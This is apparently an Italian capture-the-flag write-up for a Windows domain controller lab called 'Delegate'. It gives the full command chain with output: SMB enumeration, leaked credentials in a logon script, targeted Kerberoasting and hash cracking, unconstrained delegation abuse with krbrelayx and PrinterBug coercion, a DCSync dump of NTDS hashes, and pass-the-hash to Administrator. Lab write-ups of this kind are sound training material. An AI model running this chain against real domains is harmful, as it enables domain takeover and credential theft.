






# **Delegate**


## **Reconnaissance**
Si individuano le porte TCP aperte sulla macchina target.
```bash
$ nmap -p- --min-rate 1000 10.129.234.69 --open
```
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49838/tcp open  unknown
50768/tcp open  unknown
53262/tcp open  unknown
53263/tcp open  unknown
53268/tcp open  unknown
59621/tcp open  unknown
```

Si raccolgono informazioni per alcuni dei servizi esposti.
```bash
$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001 -sCV 10.129.234.69
```
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-14 14:33:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2025-11-13T14:25:51
|_Not valid after:  2026-05-15T14:25:51
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   DNS_Tree_Name: delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-11-14T14:52:44+00:00
|_ssl-date: 2025-11-14T14:52:51+00:00; -5h21m40s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Si ha a che fare con un dominio Active Directory, dato che sono esposti servizi necessari per un Windows domain controller quali DNS, Kerberos, SMB e LDAP. E' presente il servizio RDP sulla porta 3389/tcp.

Si aggiorna il file /etc/hosts aggiungendo un record per associare l'indirizzo IP della macchina target con hostaname, domain controller e domain.
```text
10.129.234.69 DC1 DC1.delegate.vl delegate.vl
```

### SMB
Si verifica se si ha accesso con l'account guest.
```bash
$ nxc smb delegate.vl -u guest -p '' 
```
```
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.69   445    DC1              [+] delegate.vl\guest:
```

Ed anche l'accesso anche con l'account anonimo.
```bash
$ nxc smb delegate.vl -u '' -p ''  
```
```
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.69   445    DC1              [+] delegate.vl\:
```

## **Information Gathering as guest**
Si raccolgono informazioni sul dominio AD con l'account guest enumerando shares ed utenti.
```bash
$ nxc smb delegate.vl -u guest -p '' --shares
```
```
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.69   445    DC1              [+] delegate.vl\guest: 
SMB         10.129.234.69   445    DC1              [*] Enumerated shares
SMB         10.129.234.69   445    DC1              Share           Permissions     Remark
SMB         10.129.234.69   445    DC1              -----           -----------     ------
SMB         10.129.234.69   445    DC1              ADMIN$                          Remote Admin
SMB         10.129.234.69   445    DC1              C$                              Default share
SMB         10.129.234.69   445    DC1              IPC$            READ            Remote IPC
SMB         10.129.234.69   445    DC1              NETLOGON        READ            Logon server share 
SMB         10.129.234.69   445    DC1              SYSVOL          READ            Logon server share 
```

Si ha accesso in lettura alle shares **IP$**, **NETLOGON** e **SYSVOL**.

Con la enumerazione degli utenti non si ottengono risultati.

Si analizzano le shares:
```bash
$ impacket-smbclient guest@delegate.vl 
```
```
# use SYSVOL

# ls
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 .
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 ..
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 delegate.vl

# cd delegate.vl

# ls
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 .
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 ..
drw-rw-rw-          0  Fri Nov 14 09:26:54 2025 DfsrPrivate
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 Policies
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 scripts

# cd scripts

# ls
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 .
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 ..
-rw-rw-rw-        159  Sun Oct  1 05:08:32 2023 users.bat

# get users.bat
```

Si analizza il file **users.bat** sulla macchina Kali.
```bash
$ file users.bat
```
```
users.bat: ASCII text, with CRLF line terminators
```

Il file contiene una sequenza di comandi **net use** per la gestione delle shared.
```bat
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123
```

Sostanzialmente, lo script bat elimina tutte le network connections e si crea una shared folder **\dc1\development**. Infine, se lo username è a.briggs si connette alla shared folder **\fileserver\backups** con l'account Administrator.

Si verifica se le credenziali **a.briggs:P4ssw0rd1#123** sono valide.
```bash
$ nxc smb delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123'  
```
```
MB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.69   445    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123 
```

## **Information Gathering as a.briggs**

### SMB
Si enumerano le shares con SMB.
```bash
$ nxc smb delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123' --shares
```
```
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.69   445    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123 
SMB         10.129.234.69   445    DC1              [*] Enumerated shares
SMB         10.129.234.69   445    DC1              Share           Permissions     Remark
SMB         10.129.234.69   445    DC1              -----           -----------     ------
SMB         10.129.234.69   445    DC1              ADMIN$                          Remote Admin
SMB         10.129.234.69   445    DC1              C$                              Default share
SMB         10.129.234.69   445    DC1              IPC$            READ            Remote IPC
SMB         10.129.234.69   445    DC1              NETLOGON        READ            Logon server share 
SMB         10.129.234.69   445    DC1              SYSVOL          READ            Logon server share
```

Si ha accesso in lettura alle stesse share di guest.

Si enumerano gli utenti del dominio.
```bash
$ nxc smb delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123' --users
```
```
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.69   445    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123 
SMB         10.129.234.69   445    DC1              -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.234.69   445    DC1              Administrator                 2023-08-26 15:46:29 0       Built-in account for administering the computer/domain 
SMB         10.129.234.69   445    DC1              Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.234.69   445    DC1              krbtgt                        2023-08-26 09:40:08 0       Key Distribution Center Service Account 
SMB         10.129.234.69   445    DC1              A.Briggs                      2023-08-26 12:55:15 0        
SMB         10.129.234.69   445    DC1              b.Brown                       2023-08-26 12:55:15 0        
SMB         10.129.234.69   445    DC1              R.Cooper                      2023-08-26 12:55:15 0        
SMB         10.129.234.69   445    DC1              J.Roberts                     2023-08-26 12:55:15 0        
SMB         10.129.234.69   445    DC1              N.Thompson                    2023-09-09 15:17:16 0        
SMB         10.129.234.69   445    DC1              [*] Enumerated 8 local users: DELEGATE
```

### WinRM
Si verifica l'accesso con WinRM.
```bash
$ nxc winrm delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123' 
```
```
WINRM       10.129.234.69   5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
WINRM       10.129.234.69   5985   DC1              [-] delegate.vl\a.briggs:P4ssw0rd1#123
```

### RDP
Si verifica anche se le credenzali sono valide per RDP.
```bash
$ nxc rdp delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123' 
```
```
RDP         10.129.234.69   3389   DC1              [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC1) (domain:delegate.vl) (nla:True)
RDP         10.129.234.69   3389   DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123
```

Si tenta l'accesso con RDP ma senza successo.
```bash
$ xfreerdp3 /u:a.briggs /p:'P4ssw0rd1#123' /v:delegate.vl 
```

### BloodHound
Si raccolgono informazioni sul dominio e le si analizzano con BloodHound.
```bash
$ bloodhound-python -d delegate.vl -ns 10.129.234.69 -u a.briggs -p 'P4ssw0rd1#123' -k -c all --zip
```

## **Targeted Kerberoasting Attack**

L'utente **a.briggs** ha i privilegi di modificare alcuni attributi dell'utente **n.thompson**, tra questi anche l'SPN.


Si modifica l'attributo SPN del target **n.thompson**.
```bash
$ bloodyAD -d delegate.vl --host DC1 -u a.briggs -p 'P4ssw0rd1#123' set object 'n.thompson' servicePrincipalName -v 'delegate.vl/target'
```
```
[+] n.thompson's servicePrincipalName has been updated
```

Si fa un check con LDAP:
```bash
$ nxc ldap delegate.vl -u 'a.briggs' -p 'P4ssw0rd1#123' --query '(cn=N.Thompson)' 'servicePrincipalName'
```
```
LDAP        10.129.234.69   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
LDAP        10.129.234.69   389    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123 
LDAP        10.129.234.69   389    DC1              [+] Response for object: CN=N.Thompson,CN=Users,DC=delegate,DC=vl
LDAP        10.129.234.69   389    DC1              servicePrincipalName delegate.vl/target
```

Kerberoasting attack contro n.thompson e si ottiene un TGS.
```bash
$ impacket-GetUserSPNs delegate.vl/a.briggs:'P4ssw0rd1#123' -request-user n.thompson
```
```
ServicePrincipalName  Name        MemberOf                                         PasswordLastSet             LastLogon                   Delegation 
--------------------  ----------  -----------------------------------------------  --------------------------  --------------------------  ----------
delegate.vl/target    N.Thompson  CN=delegation admins,CN=Users,DC=delegate,DC=vl  2023-09-09 11:17:16.247262  2023-09-16 03:18:20.238500             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$783f8adc49ab1b0bf72319df1eb09bde$2e6512a645b7757bd023fcad25ec5b7667a41d677b18d23f928ad896b771f1747b95594f4f9900bef0a1f1b361af8913026a111e34e5fdd61864e7a3571c998014dd4bcc679a216c280d1fa439e8bc303430264d4d81beb384596b1fe189c450c08b5338bb338b2fce554d548e6229b2fbe41998d9c50ebda3c4e3dddd3f4148e9cb3cb4abf00604128a5055c1d8c2df350baf1dbdbdf18d9f031221ac3277a8159122a1879d420e9691dc8d51c09e396c1a892ddc80136ab0785992366827b40b0db8c8239a336b3b98a1963a1d4db64dcfd8b5e265dbd00ab82a609df1b7baade943e0d6f57abf916bca91052af86776fac1059140e89862b07e1330e9d6d8c416f746d5adbcdfa7ba180fa044822c79b215571dcc3ddcaa46cba826ec27d9ca11b30c49caf0d7749d66b58bf23b55bc77a81bf8de939083d8fd6571c15872a90bcb08317357d7b07f5d3f9ed742e78451d0df39c352a74e3b033dff3165d2450f458d1a5288b3b8e5d7b4d920c1a6e246d070d85a6dc15346fdc633c9b5537ba4563494a21f52a217ce323107d9835475e80f5b3931de372a0cc86bddaea10f96b0c3d08785b66735b7c793dd89dd16e9c82a2446de5ff78575c1ac099dd364cfcd1da002b1325d3153ae1aa8ecc01b5fa1954e3f006f582c1e6895e0ff33a38718ef0cc5a3a7d76e8aad8868ebdb21b2ae4710396ed8328e977e3bfd810049116b1ebcf803a31568e20b90bd682e36d17c4a829ca48971afb3dd6230c4b4a76f39b0b7b64d9c812234ee40fc91a28de2be931ee861b8568e981205909673dd6de53b208012a800d6420d60810e6523e4344017622e58d6913d8868173ea42cc13ce96f8f6dbbed5b7b4e3b49355a243eb829525a659a90787f214d8adc60648992bf4236735df3bdca4e02cf84bc106bf6c0076666b828a5f436bf8e307c606889f0001abba527f15543f8aeb0ebfe05d7f9fb5879f5b9c6997a93520b274a7c4954c5491991576a7e368b976d75c68559bc55c32b2656daa39874c3a1123333c94cbde559a84766d5bb5b1619351f10b09962bad1eeb4aadf9ebe716b2333d3887bd02ead9ac1e06568d0a008c1d13177f733e90d7c3ffdaa3060ac056c7c680bdb4d69a622499e34e9e825e162c681550e7342104fbc8ee9b65f6e3eb2150e33e02c643e837cd6bf9577753199a8edb56fd1a509d94ebc756d1f9a1a8c42131b4a64085a2817409f2184c054489b4f908fae69f0eff1aee36a46770e364fea252f7dc54f49d53a505bcaceb03edbb817357bcb7a803d9747e9533f98673fd0e0ab3d56024a539ca181dcd14bbceb56a5d8647521047eda82215eb5a5fa80e317415ce6db560e70e3ecd5d7b5a04aac41a9b5fc8b01f392e24d1959cbf527dd523ca1af55ff0cefb8d6ba19c04be2b1c152af388b51b14f98b95c92702a4c7a1e1f
```

Si tenta il cracking del TGS.
```bash
$ hashcat -a 0 -m 13100 nthompson.tgs /usr/share/wordlists/rockyou.txt.gz
```
```
KALEB_2341
```

Si ottengono le credenziali **n.thompson:KALEB_2341**.



L'utente è membro del gruppo **Remote Management Users** che permette l'accesso remoto via WinRM.

### SMB
```bash
$ nxc smb delegate.vl -u n.thompson -p KALEB_2341
```
```
SMB         10.129.234.69   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.69   445    DC1              [+] delegate.vl\n.thompson:KALEB_2341 
```

### WinRM
```bash
$ nxc winrm delegate.vl -u n.thompson -p KALEB_2341
```
```
WINRM       10.129.234.69   5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
WINRM       10.129.234.69   5985   DC1              [+] delegate.vl\n.thompson:KALEB_2341 (Pwn3d!)
```

### RDP
```bash
$ nxc rdp delegate.vl -u n.thompson -p KALEB_2341 
```
```
RDP         10.129.234.69   3389   DC1              [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC1) (domain:delegate.vl) (nla:True)
RDP         10.129.234.69   3389   DC1              [+] delegate.vl\n.thompson:KALEB_2341
```

## **Shell as N.Thompson**

Si accede alla shell come **n.thompson**.
```bash
$ evil-winrm -i delegate.vl -u 'n.thompson' -p 'KALEB_2341' 
```



Si accede al contenuto del file **user.txt**.



Si analizzano i gruppi di cui è parte l'utente.


L'account **j.roberts** è parte di questo gruppo.



Si analizzano i privilegi dell'account n.thompson.



Si sfrutta il privilegio **SeEnableDelegationPrivilege**.

## **Abusing Unconstrained Delegation**

```bash
# Check Machine Quota
nxc ldap delegate.vl -u n.thompson -p KALEB_2341 -M maq
```
```
LDAP        10.129.63.143   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
LDAP        10.129.63.143   389    DC1              [+] delegate.vl\n.thompson:KALEB_2341 
MAQ         10.129.63.143   389    DC1              [*] Getting the MachineAccountQuota
MAQ         10.129.63.143   389    DC1              MachineAccountQuota: 10
```

E' possibile fino a 10 computer account nel dominio.

Si crea l'account computer **THECOMPUTER:Password123!**.

```bash
# Add computer
$ impacket-addcomputer -computer-name 'THECOMPUTER' -computer-pass 'Password123!' -dc-ip 10.129.63.143 delegate.vl/n.thompson:KALEB_2341
```
```
[*] Successfully added machine account THECOMPUTER$ with password Password123!.
```

Si aggiorna il DNS via LDAP per permettere la risoluzione dell'hostname **THECOMPUTER**.

```bash
# Update DNS to resolve the fake hostname in the domain
python3 dnstool.py -u 'delegate.vl\\THECOMPUTER$' -p 'Password123!' --action add --record THECOMPUTER.delegate.vl --type A --data 10.10.16.34 -dns-ip 10.129.63.143 DC1.delegate.vl -k
```
```
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

Si aggiunge un SPN alla macchina.
```bash
# Add SPN
$ bloodyAD -d delegate.vl --host DC1 -u n.thompson -p KALEB_2341 set object 'THECOMPUTER$' servicePrincipalName -v 'cifs/THECOMPUTER.delegate.vl'
```

Si aggiunge all'uac della macchina la flag TRUSTED_FOR_DELEGATION.
```bash
# Enable Unconstrained Delegation on the attacker-controlled computer
bloodyAD -d delegate.vl -u n.thompson -p KALEB_2341 --host DC1.delegate.vl add uac 'THECOMPUTER$' -f TRUSTED_FOR_DELEGATION
```
```
[-] ['TRUSTED_FOR_DELEGATION'] property flags added to THECOMPUTER$'s userAccountControl
```

Si crea l'NT hash della macchina.
```bash
$ python3 - << 'PY' 
password = 'Password123!'
import hashlib
print(hashlib.new('md4', password.encode('utf-16le')).hexdigest())
PY
```
```
2b576acbe6bcfda7294d6bd18041b8fe
```

E si lancia krbrelayx in modalità unconstrained delegation.
```bash
$ python3 krbrelayx.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe --target DC1.delegation.vl -dc-ip 10.129.63.143
```

Si lancia la **coerce authentication**.
```bash
# Coerce authentication
nxc smb delegate.vl -u 'THECOMPUTER$' -p 'Password123!' -M coerce_plus -o LISTENER=THECOMPUTER.delegate.vl METHOD=PrinterBug
```
```
SMB         delegate.vl     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         delegate.vl     445    DC1              [+] delegate.vl\THECOMPUTER$:Password123! 
COERCE_PLUS delegate.vl     445    DC1              VULNERABLE, PrinterBug
COERCE_PLUS delegate.vl     445    DC1              Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationEx
```

Funziona! krbrelayx memorizza nella macchina Kali il TGT del DC account.



## DCSync

Con il DC account si effettua il dump delle credenziali contenute in NTDS.
```bash
$ KRB5CCNAME=${PWD}/'DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache' nxc smb delegate.vl --use-kcache --ntds
```
```
SMB         delegate.vl     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         delegate.vl     445    DC1              [+] DELEGATE.VL\DC1$ from ccache 
SMB         delegate.vl     445    DC1              [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         delegate.vl     445    DC1              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         delegate.vl     445    DC1              Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::
SMB         delegate.vl     445    DC1              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         delegate.vl     445    DC1              krbtgt:502:aad3b435b51404eeaad3b435b51404ee:54999c1daa89d35fbd2e36d01c4a2cf2:::
SMB         delegate.vl     445    DC1              A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:8e5a0462f96bc85faf20378e243bc4a3:::
SMB         delegate.vl     445    DC1              b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:deba71222554122c3634496a0af085a6:::
SMB         delegate.vl     445    DC1              R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:17d5f7ab7fc61d80d1b9d156f815add1:::
SMB         delegate.vl     445    DC1              J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:4ff255c7ff10d86b5b34b47adc62114f:::
SMB         delegate.vl     445    DC1              N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:4b514595c7ad3e2f7bb70e7e61ec1afe:::
SMB         delegate.vl     445    DC1              DC1$:1000:aad3b435b51404eeaad3b435b51404ee:f7caf5a3e44bac110b9551edd1ddfa3c:::
SMB         delegate.vl     445    DC1              THECOMPUTER$:4601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         delegate.vl     445    DC1              [+] Dumped 10 NTDS hashes to /home/kali/.nxc/logs/ntds/DC1_delegate.vl_2025-11-14_182433.ntds of which 8 were added to the database
```

## Shell as Administrator

Si accede con l'account Administrator.
```
$ evil-winrm -i delegate.vl -u 'Administrator' -H c32198ceab4cc695e65045562aa3ee93 
```


E si ottiene il file **root.txt**.


---
